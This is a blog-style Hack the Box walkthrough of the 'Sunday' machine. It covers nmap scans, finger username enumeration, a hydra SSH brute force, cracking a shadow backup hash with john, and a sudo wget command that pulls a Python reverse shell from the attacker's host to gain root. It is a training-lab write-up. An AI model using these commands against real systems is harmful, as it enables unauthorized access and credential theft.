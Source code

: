 ```yaml
---
title: Sunday - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Sunday.png
---
```

---
title: 2024-10-12-Sunday - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Sunday.png
---
### Scan
```

Host is likely running OpenBSD/Cisco/Oracle


PORT    STATE SERVICE
79/tcp  open  finger
111/tcp open  rpcbind
515/tcp open  printer


PORT    STATE SERVICE VERSION
79/tcp  open  finger?
|_finger: No one logged on
| fingerprint-strings: 
|   GenericLines: 
|     No one logged on
|   GetRequest: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|   HTTPOptions: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|     OPTIONS ???
|   Help: 
|     Login Name TTY Idle When Where
|     HELP ???
|   RTSPRequest: 
|     Login Name TTY Idle When Where
|     OPTIONS ???
|     RTSP/1.0 ???
|   SSLSessionReq: 
|_    Login Name TTY Idle When Where
111/tcp open  rpcbind 2-4 (RPC #100000)
515/tcp open  printer


PORT      STATE SERVICE
79/tcp    open  finger
111/tcp   open  rpcbind
515/tcp   open  printer
6787/tcp  open  smc-admin
22022/tcp open  unknown


PORT      STATE SERVICE VERSION
6787/tcp  open  http    Apache httpd
|_http-server-header: Apache
|_http-title: 400 Bad Request
22022/tcp open  ssh     OpenSSH 8.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:00:94:32:18:60:a4:93:3b:87:a4:b6:f8:02:68:0e (RSA)
|_  256 da:2a:6c:fa:6b:b1:ea:16:1d:a6:54:a1:0b:2b:ee:48 (ED25519)

```
### Enumeration
finger? - simple network protocols for the exchange of human-oriented status and user information. a relic of a dif time
`finger @10.10.10.76` yields no results, so we can user pentest monkey script for user enum
`./finger-user-enum.pl -U /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -t 10.10.10.76`
Only users with valid IP are sunny and sammy![Image](/assets/Screenshot 2024-10-08 at 4.57.28 PM.png)
We can brute force ssh with hydra and rockyou (or be big brain and use box name)`sunday`
`hydra -l sunny -P /usr/share/wordlists/rockyou.txt 10.10.10.76 -s 22022 ssh`
![Image](/assets/Screenshot 2024-10-08 at 5.03.15 PM.png)
SSH in with `ssh sunny@10.10.10.76 -p 22022`
### Priv Esc
root troll priv as sunny?
go to root directory, and go to backup dir. thats not usually there boxo
we find shadow backup and cat it ![Image](/assets/Screenshot 2024-10-08 at 5.07.19 PM.png)
see user sammy hash to crack. (no root, come back later)
`john --wordlist=/usr/share/wordlists/rockyou.txt sammy.hash`
`cooldude!`![Image](/assets/Screenshot 2024-10-08 at 5.12.04 PM.png)
ssh to sammy
sudo wget priv as sammy
lets use wget on sammy to overwrite root troll and run it as sunny.
create a reverse py shell (pentest monkey )
serve with py server and overwrite w wget
`sudo wget http://10.10.14.11:8000/tmp.py -0 /root/troll`
![Image](/assets/Screenshot 2024-10-08 at 5.21.53 PM.png)
Then, quickly (5s), execute `sudo /root/troll` as sunny. If your listener is set up, you'll get root.
The script is rewritten every 5 seconds, so be quick!![Image](/assets/Screenshot 2024-10-08 at 5.32.10 PM.png)
ROOT:a50977c381dd35e6a1ee3ee5e7041ce4

